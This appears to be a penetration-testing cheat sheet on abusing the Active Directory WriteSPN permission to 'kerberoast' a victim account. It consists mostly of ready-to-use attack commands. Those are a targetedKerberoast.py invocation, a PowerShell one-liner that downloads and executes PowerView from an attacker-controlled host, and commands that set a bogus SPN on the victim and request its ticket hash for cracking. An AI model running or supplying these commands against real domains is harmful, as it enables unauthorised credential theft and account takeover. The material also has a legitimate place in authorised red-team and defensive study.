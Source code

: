 # WriteSPN abuse

### USER have WriteSPN over USER:

If an user have WriteSPN over another user will be able to get the hash of that user. To do it will become that user "kerberoasteble".

#### From Linux (externally, recomended):

With password -> `targetedKerberoast.py -v -d '<domain>' -u '<user you control>' -p '<password>'`

With nt hash  -> `targetedKerberoast.py -v -d '<domain>' -u '<user you control>' -H :<nt hash>`

Note: If clock error appears "KRB_AP_ERR_SKEW" use kerberos sync command before.

<br>

#### From Windows (internally):

Load powerview module first -> `IEX (new-object net.webclient).downloadstring('http://your_evil_ip_or_domain/powerview.ps1')`

Make sur that the target account has no SPN -> `Get-DomainUser '<victimuser>' | Select serviceprincipalname`

Set the SPN -> `Set-DomainObject -Identity 'victimuser' -Set @{serviceprincipalname='nonexistent/BLAHBLAH'}`

Obtain a kerberoast hash -> `$User = Get-DomainUser '<victimuser>' ; $User | Get-DomainSPNTicket | fl`







